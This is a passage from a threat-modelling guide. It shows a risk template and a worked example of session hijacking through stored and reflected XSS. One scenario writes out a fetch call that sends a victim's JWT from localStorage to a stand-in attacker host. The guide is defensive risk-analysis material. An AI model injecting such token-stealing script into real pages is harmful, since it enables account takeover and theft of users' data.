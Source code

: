 ```markdown

## Likelihood and Impact
**Likelihood**: Low / Medium / High
**Justification**: [Why this likelihood? Historical data, attack complexity]

**Impact**: Low / Medium / High / Critical
**Justification**: [What happens if successful? Data breach? System compromise?]

**Risk Score**: Likelihood × Impact = [Score]

## Mitigations
- [Mitigation 1] → See Control: [Control ID]
- [Mitigation 2] → See Control: [Control ID]

## Residual Risk
After mitigations: [Describe remaining risk]
**Accepted by**: [Role/Name] on [Date]
```

### Example: Session Hijacking Threat

```markdown
# Threat: Session Hijacking via Token Theft

## Description
**What**: Attacker steals session token and impersonates legitimate user
**How**: XSS attack injects JavaScript to extract token from localStorage
**Who**: External attacker (internet-facing attack), insider with XSS injection capability

## Affected Assets
- User session tokens (JWT stored in browser localStorage)
- Customer personal data (accessible via hijacked session)
- Administrative functions (if admin session hijacked)

## Attack Scenarios
### Scenario 1: Stored XSS
1. Attacker injects malicious script via user profile field (e.g., bio)
2. Script stored in database without sanitization
3. Victim views attacker's profile
4. Script executes: `fetch('https://attacker.com/?token=' + localStorage.getItem('jwt'))`
5. Attacker receives victim's token
6. Attacker uses token to make API calls as victim

### Scenario 2: Reflected XSS
1. Attacker sends victim malicious link: `https://app.com/search?q=<script>/* malicious */</script>`
2. Victim clicks link
3. Search query reflected in page without sanitization
4. Script executes and exfiltrates token

## Likelihood and Impact
**Likelihood**: MEDIUM
**Justification**: XSS vulnerabilities are common (OWASP Top 10). Application has user-generated content (profiles, comments). No Content Security Policy detected.

**Impact**: HIGH
**Justification**: Hijacked session grants full user access including:
- Personal data of victim (PII)
- Financial transactions (if applicable)
- Admin functions (if admin token hijacked)
Data breach affects confidentiality, integrity, availability.

**Risk Score**: Medium × High = HIGH RISK
```